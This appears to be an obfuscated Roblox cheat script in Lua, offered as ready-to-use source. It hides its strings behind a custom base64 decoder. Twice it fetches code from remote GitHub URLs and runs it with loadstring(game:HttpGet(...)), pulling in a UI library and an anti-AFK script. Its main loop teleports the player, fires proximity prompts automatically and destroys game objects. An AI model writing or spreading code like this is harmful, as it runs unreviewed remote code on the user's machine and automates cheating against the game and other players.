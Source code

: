 local b='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
function rapolqKiiJnIvmIbSSHxyvtqz(data) m=string.sub(data, 0, 55) data=data:gsub(m,'')

data = string.gsub(data, '[^'..b..'=]', '') return (data:gsub('.', function(x) if (x == '=') then return '' end local r,f='',(b:find(x)-1) for i=6,1,-1 do r=r..(f%2^i-f%2^(i-1)>0 and '1' or '0') end return r; end):gsub('%d%d%d?%d?%d?%d?%d?%d?', function(x) if (#x ~= 8) then return '' end local c=0 for i=1,8 do c=c+(x:sub(i,i)=='1' and 2^(8-i) or 0) end return string.char(c) end)) end


 



local library = loadstring(game:HttpGet(rapolqKiiJnIvmIbSSHxyvtqz('HIMLLWvfMGJbOjHInJvMuFITYJmGTIObkWIflpOjRNtKPrFOkNnCYihaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2Jsb29kYmFsbC8tYmFjay11cHMtZm9yLWxpYnMvbWFpbi90dXJ0bGU=')))()

local OwO = library:Window(rapolqKiiJnIvmIbSSHxyvtqz('zlkotSWKdGIumqYHPjnGjZbaFNOVrmZSyIwHCHLuWPcqBtydXEvxVkNNEJpbmcgYnkgSURLP0EgSFVC'))

OwO:Toggle(rapolqKiiJnIvmIbSSHxyvtqz('zggRhfTUhSCknQCjJMrMnMKjxsIceELpPoEhRiYDJOKFmOelETXhjNcQXV0byBmYXJtIOC4geC4lOC4m+C4tOC4lOC5gOC4m+C4tOC4lOC5g+C4q+C4oeC5iA=='), true, function(Auto)

_G.Loop = Auto
while _G.Loop do wait(.5)
game.Players.localPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(76, 685, -1474)
wait(.2)
for i,v in pairs(workspace[rapolqKiiJnIvmIbSSHxyvtqz('fkHfRzVBjXAlSAjiANRYuBPKBFZsArcsxZQtXMcsrNatUTPjYGKzYqrXDIyNFwxODRcMTcwXDIyNFwxODVcMTM2XDIyNFwxODRcMTM1')]:GetChildren()) do
if v:IsA(rapolqKiiJnIvmIbSSHxyvtqz('yKfIgLkPJvUonFwApaAJUxJaqfYTHIeUpLrVXEXXPxzOmnCoNDjKQLzUGFydA==')) then
local p = v:FindFirstChildOfClass(rapolqKiiJnIvmIbSSHxyvtqz('bxOHkUgHiSCnXpAASKoFcOJZiGzKXqHWkShUYnPFYyELAyNmBNUXTcvUHJveGltaXR5UHJvbXB0'))
if p then
fireproximityprompt(p)
end
end
end
wait(.2)
game.Players.localPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(-325, 685, -1412)
Tool = rapolqKiiJnIvmIbSSHxyvtqz('ydCVVQYdpNZXyfanJGzeFIytksEQsmUzeYIASbzjZpdUVgBpEIBiQBTWWE=')
game.Players.localPlayer.Character.Humanoid:EquipTool(game:GetService(rapolqKiiJnIvmIbSSHxyvtqz('gQvkBqbvYPrgEDOnfCAFTIqpqNONSGkhzMYgonOYyhOxrXcLCVLHQoEUGxheWVycw==')).LocalPlayer.Backpack:FindFirstChild(Tool))
wait(.2)
for i,v in pairs(workspace[rapolqKiiJnIvmIbSSHxyvtqz('RNoLGBkijSAEXKOZGLSgpohUXpYKkkVBAoDMfwWEvfHkEkVQHrhMnlCXDIyNFwxODRcMTM1XDIyNFwxODRcMTc4XDIyNFwxODRcMTUz')][rapolqKiiJnIvmIbSSHxyvtqz('arefFuWonHhztAQDhvJDJzBFqIbnSYTlHaqaeAnUHaZrnCDlGVbtHZZXDIyNFwxODRcMTYzXDIyNFwxODRcMTc3XDIyNFwxODRcMTU0')]:GetChildren()) do
if v:IsA(rapolqKiiJnIvmIbSSHxyvtqz('YIMkCHEeXHTSkIyDfpJLUxcRDGNYUkFgJxhGHXWHpvZBMfHowXKaHIYUGFydA==')) then
local p = v:FindFirstChildOfClass(rapolqKiiJnIvmIbSSHxyvtqz('rttIlLAhwPSMdUgUPqkcHilkQUJIGUWhktJxAeCuBGadOcmTupkHBHuUHJveGltaXR5UHJvbXB0'))
if p then
fireproximityprompt(p)
end
end
end
end
end)

workspace[rapolqKiiJnIvmIbSSHxyvtqz('GNsZDtOpHeWIZECnhOIIQxWuOOcMOOPZMucFLcSQllEFYucLqpFNblFXDIyNFwxODRcMTU0XDIyNFwxODVcMTM3XDIyNFwxODRcMTc4XDIyNFwxODRcMTUzXDIyNFwxODVcMTI4XDIyNFwxODRcMTYxXDIyNFwxODRcMTgzXDIyNFwxODRcMTczXDIyNFwxODRcMTM1')]:Destroy()
workspace[rapolqKiiJnIvmIbSSHxyvtqz('JnvGpLSEjYnBZDnPAEWBuMeYfJkAQrfWRQxDLDdLNwHlgwnWEeiBXoJXDIyNFwxODVcMTI4XDIyNFwxODRcMTYxXDIyNFwxODRcMTgzXDIyNFwxODRcMTczXDIyNFwxODRcMTM1')]:Destroy()
wait(.5)
loadstring(game:HttpGet((rapolqKiiJnIvmIbSSHxyvtqz('aCRbPkcGMDbpdIwaGaELQOlYanvqzDhtgVNvOZbKJfEhedNCtWsUsfUaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL1Byb3h5bG9sL090aGVyU2NyaXB0cy9tYWluL0FudGlBZmsubHVh')),true))()    
